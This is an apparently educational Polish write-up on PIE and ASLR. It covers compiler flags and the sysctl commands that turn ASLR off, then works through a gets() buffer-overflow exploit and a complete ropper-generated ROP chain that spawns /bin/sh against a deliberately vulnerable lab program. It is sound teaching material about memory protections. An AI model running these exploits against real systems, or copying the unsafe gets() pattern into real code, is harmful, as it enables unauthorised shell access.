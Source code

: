 # ASLR & PIE
## Opis
### PIE
PIE czyli `position-independent executable` to kod który po skompilowaniu może funkcjonować w dowolnym obszarze pamięci bazując na offsetach od początkowego adresu.

W przypadku kompilacji bez PIE:

![](https://i.imgur.com/vARS95y.png)

W przypadku kompilacji z PIE:

![](https://i.imgur.com/LwlXBhY.png)

Do działania tak skompilowanego kodu niezbędna jest GOT - `Global Offset Table`, przechowująca mapująca symbole na adresy w pamięci. Dynamiczny linker uzupełnia GOT przy uruchomieniu programu lub przy pierwszym odwołaniu do funkcji.

PIE ma też spory wpływ na performance systemu Linux. Na architekturze x86-32bit ubuntu wskazuje na około 5-10%.

Windows w przeciwieństwie do linuxa nie używa PIE. Jego miejsce zastępują PE - Portable Executable. Zawięrają one zazwyczaj kod skompilowany pod preferowany bazowy adres. Windows może przy ładowaniu przenieść (rebase) program pod dowolny adres przeliczając wszystkie adresy w pliku na nowe. W wyniku tej operacji system potrzebuję większej ilości pamięci, ale wpływ na czas wykonania jest znikomy.

### ASLR
ASLR czyli `Address space layout randomization` - to technika uniemożliwiająca skuteczne skakanie do danych sekcji pamięci. Osiąga to poprzez randomizacje przestrzeni adresów naszego kodu. 

W przypadku wyłączonego ASLR program będzie uruchamiał się w tej samej przestrzeni adresowej:

![](https://i.imgur.com/5NnJLGX.png)

W przypadku użycia ASLR program załaduje się do losowej przestrzeni adresowej przy każdym uruchomieniu:

(w gdb ASLR należy włączyć komendą `set disable-randomization off`)

![](https://i.imgur.com/jIIs0Sc.png)

![](https://i.imgur.com/u1N4QOP.png)

ASLR najlepiej stosować razem z PIE. W przeciwnym wypadku kod naszej aplikacji jest ładowany statycznie. Z tego powodu ASLR + PIE ma znaczący wpływ na wydajność na Linuxie. Jest on też opcją kontrolowaną flagą systemową dla wszystkich programów.

Na windowsie ASLR nie ma wpływu na wydajność. Opcja `/DYNAMICBASE` modyfikuje nagłówek executable aby wskazać czy aplikacja powinna być rebase'owana przy ładowaniu.

## Clang i GCC
### ASLR
Jest niezależny od kompilacji - można go włączyć lub wyłączyć w każdym momencie zmieniając flagę systemową komendami: 

Wyłączenie aslr: `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`
Włączenie aslr: `echo 2 | sudo tee /proc/sys/kernel/randomize_va_space`

### PIE

W obydu kompilatorach PIE jest defaultowo włączone. W obydu kompilatorach możemy wyłączyć je przez flagę `-no-pie`.

Wartym zauważenia wyjątkiem jest kompilacja statyczna z włączonym PIE. Wykorzystując flagę `-static-pie` możemy utwożyć pie executable nie wymagające dynamicznego linkera. Niezbędna do tego jest kompilacja wszystkich linkowanych plików z flagą `-fpie`.

## Exploit 1
### Podatna aplikacja
```c
#include <stdio.h>
#include <stdlib.h>

void win() { system("/bin/sh"); }

void func() {
  char input[16];

  printf("Please enter your name: \n");
  gets(input);

  printf("Hi %s\n", input);
}

int main() {
  func();
  return 0;
}

```

W exploicie wykożystuje użycie niebezpiecznej funkcji `gets()` pozwalającej na `BOF` oraz funkcji `win()` dającej dostęp do shella.

Do automatyzacji exploitu wykorzystuje `pwntools`.

### Exploitacja

Za pomocą gdb szukam adresu funkcji win:

![](https://i.imgur.com/4ZZqMyp.png)

Adres ten zamieniam na little endian funkcją `p32` i dodaje do payloadu po offsecie:

```{python}
payload = b"a"*eip_offset
payload += p32(0x08049192)
```

Przy wyłączonym PIE + ASLR exploit działa:

![](https://i.imgur.com/N6K7LO3.png)

Przy włączonym PIE + ASLR exploit nie działa:

![](https://i.imgur.com/fmk9nLI.png)

Exploit nie może zadziałać ponieważ funkcja `win()` została załadowana pod losowy adres.

Ważne że przy włączeniu samego pie exploit również zadziała ale z innym adresem.

## Exploit 3 - ROP

Popularną techniką jest ROP - Return Oriented Programming. Polega ona na wykorzystaniu kodu załadowanego do pamięci. Instrukcje zawarte w payloadzie nazywane są `Gadgetami` i kończą się instrukcją `ret`. Za pomocą gadgetów możemy utwożyć łańcuch który ustawi odpowiednio rejestry i wywoła syscalla `execve` dającego nam dostęp do basha.

### Exploitacja
Aby utworzyć ROPchain potrzebujemy najpierw odnaleźć w kodzie aplikacji jak najwięcej gadgetów. Przy dużych i skomplikowanych aplikacjach z dużą ilością kodu naturalnie występuje duża ilość dostępnych gadżetów. Aby osiągnąć podobny efekt kompiluje aplikacje ze statycznie linkowanymi biliotekami.

Do znalezienia gadgetów można wykorzystać narzędzia takie jak `ropper lub ROPgadget`, moim wyborem jest ropper:

`ropper -f app1-static.o -b 0a --search "ret"
`

![](https://i.imgur.com/eS3sRxr.png)

Ropper znalazł gadgety z instrukcją ret. Dalej albo ręcznie albo w sposób zautomatyzowany sklejamy chain z odnalezionych gadgetów:

`ropper -f app1-static.o -b 0a --chain execve`

```python
rop += rebase_0(0x00001743) # 0x08049743: pop edi; ret; 
rop += '//bi'
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret; 
rop += rebase_0(0x0009e060)
rop += rebase_0(0x000475fd) # 0x0808f5fd: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret; 
rop += p(0xdeadbeef)
rop += p(0xdeadbeef)
rop += p(0xdeadbeef)
rop += rebase_0(0x00001743) # 0x08049743: pop edi; ret; 
rop += 'n/sh'
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret; 
rop += rebase_0(0x0009e064)
rop += rebase_0(0x000475fd) # 0x0808f5fd: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret; 
rop += p(0xdeadbeef)
rop += p(0xdeadbeef)
rop += p(0xdeadbeef)
rop += rebase_0(0x00001743) # 0x08049743: pop edi; ret; 
rop += p(0x00000000)
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret; 
rop += rebase_0(0x0009e068)
rop += rebase_0(0x000475fd) # 0x0808f5fd: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret; 
rop += p(0xdeadbeef)
rop += p(0xdeadbeef)
rop += p(0xdeadbeef)
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret; 
rop += rebase_0(0x0009e060)
rop += rebase_0(0x0001bd11) # 0x08063d11: pop ecx; add al, 0xf6; ret; 
rop += rebase_0(0x0009e068)
rop += rebase_0(0x00050d45) # 0x08098d45: pop edx; xor eax, eax; pop edi; ret; 
rop += rebase_0(0x0009e068)
rop += p(0xdeadbeef)
rop += rebase_0(0x00001825) # 0x08049825: pop ebp; ret; 
rop += p(0x0000000b)
rop += rebase_0(0x0001bb9b) # 0x08063b9b: xchg eax, ebp; ret; 
rop += rebase_0(0x00032170) # 0x0807a170: int 0x80; ret; 
```

Flaga `-b 0a` zapewnia że w adresach gadgetów nie pojawią się bajty `\x0a` - `\n` kończące działanie funkcji `gets()`. W przypadku exploitowania innej funkcji należy odfiltrować odpowiednie wartości.

Tak przygotowany chain wysyłamy po odpowiednio ustalonym offsecie:

![](https://i.imgur.com/yKSGFNX.png)

W przypadku użycia PIE, ASLR i linkowania dynamicznego exploit ten staje się niemożliwy do wykonania bez leakowania adresu bazowego.

## Wnioski

ASLR i PIE powinny być używane jednocześnie. ASLR nie może spełnić swojej funkcji jeżeli kod był kompilowany bez PIE, a samo PIE nie daje ochrony wystarczającej do usprawiedliwienia zmiejszenia performance'u.
